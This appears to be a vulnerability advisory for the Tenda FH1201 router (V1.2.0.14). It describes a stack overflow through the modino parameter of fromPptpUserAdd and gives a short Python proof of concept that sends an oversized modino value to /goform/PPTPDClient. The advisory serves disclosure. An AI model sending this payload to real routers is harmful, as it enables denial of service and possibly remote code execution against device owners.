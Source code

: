 # Tenda FH1201 fromPptpUserAdd_modino
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the modino parameter in the fromPptpUserAdd function.
### Vulnerability details
In function fromPptpUserAdd line 85, it reads in a user-provided parameter `modino`, and the variable `v6` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_2`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/13.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/PPTPDClient"

data = {
    "modino": "a" * 1000
}

response = requests.get(url, params=data)
print(response.text)
```

![](images/14.png)
